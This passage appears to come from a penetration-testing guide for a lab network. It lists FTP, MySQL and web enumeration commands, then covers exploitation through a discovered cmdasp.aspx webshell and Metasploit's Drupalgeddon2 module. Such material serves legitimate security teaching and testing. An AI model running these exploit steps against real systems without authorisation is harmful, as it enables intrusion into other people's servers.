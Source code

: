 #### FTP Enumeration

**Anonymous FTP access:**
```bash
ftp 192.168.100.51
# Login with username: anonymous and blank password
```

Commands to use once connected:
```
ls -la  # List all files including hidden ones
get filename  # Download a file to your local machine
```

#### Database Service Enumeration

**MySQL/MariaDB:**
```bash
# Connect to MySQL/MariaDB server
mysql -h 192.168.100.50 -P 3307 -u root -p

# If version fingerprinting is needed without login
nmap -sV --script=mysql-info -p 3307 192.168.100.50
```

#### Web Application Vulnerability Assessment

**Nikto for general web vulnerabilities:**
```bash
nikto -h http://192.168.100.51
```

**OWASP ZAP or Burp Suite** for interactive web application testing:
- Proxy web traffic
- Spider websites
- Identify potential injection points
- Test for XSS, SQLi, etc.

**Specific CMS vulnerability scanners:**
```bash
# Check for Drupalgeddon2 vulnerability
nmap --script http-vuln-cve2018-7600 -p 80 192.168.100.67
```

### 3. Exploitation Techniques

#### Web Application Exploitation

**Command Injection via WebShells:**
When a file like `cmdasp.aspx` is discovered on WINSERVER-02, it can be accessed through a browser to potentially execute commands:
```
http://192.168.100.51/cmdasp.aspx
```

**Drupalgeddon2 Exploitation with Metasploit:**
```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.100.67
set TARGETURI /
exploit
```
